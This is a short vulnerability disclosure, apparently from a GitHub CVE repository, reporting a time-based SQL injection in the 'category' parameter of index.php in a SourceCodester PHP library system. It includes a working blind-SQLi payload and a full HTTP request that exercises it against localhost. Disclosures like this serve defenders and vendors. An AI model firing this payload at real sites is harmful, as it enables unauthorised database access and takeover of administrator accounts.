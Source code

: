 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

Library System using PHP/MySQli with Source Code | SourceCodester](https://www.sourcecodester.com/php/12275/library-system-using-php.html)

**Vulnerability File:**
index.php

**Description:**

SerBermz Book Management System Exists SQL Injection Vulnerability on Index.php Page

The parameter category was not processed correctly. Hackers can exploit this vulnerability to manipulate the administrator account of the system and have complete control over account information.

Status: Critical

SQL injection exists for GET parameter category

Payload:if(now()=sysdate(),sleep(4),0)

GET /libsystem/index.php?category=if(now()=sysdate(),sleep(4),0) HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

![image-20231010235824835](https://github.com/GodRone/CVE/blob/main/image/image-20231010235824835.png)









